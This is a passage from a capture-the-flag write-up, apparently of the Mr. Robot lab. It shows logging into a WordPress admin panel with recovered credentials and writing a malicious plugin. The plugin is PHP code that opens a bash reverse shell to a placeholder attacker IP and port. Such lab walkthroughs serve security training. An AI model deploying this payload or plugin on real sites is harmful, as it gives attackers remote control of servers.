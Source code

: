 Perfect! We now have the complete login information: `elliot:ER28-0652`.

## Exploitation

To continue, we can try to connect to WordPress.

<img src="./screenshots/4.png" width="80%">

It works! We now have access to the WordPress administration panel. Let’s take a look around to see what information we can gather.

After looking around, all I found was:

- There are two users: `elliot`, who is an admin, and `mich05654`, just a subscriber.
- We seem to have full access, so we can add themes, plugins, etc.

The first thing I thought about was uploading a malicious plugin/theme to get a reverse shell on the target machine.

Let’s create our malicious file first.

```bash
touch php-reverse-shell.php
ls
fsocity.dic fsocity_uniq.dic php-reverse-shell.php
```

Inside it, we can write a simple malicious payload in PHP. This will allow us to get a reverse shell on the target machine.

```php
<?php
/*
Plugin Name: PHP Reverse Shell
Plugin URI: http://fakeurl.xyz/
Description: Just a test plugin ;)
Version: 1.0
Author: 0xMR007
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'");
?>
```
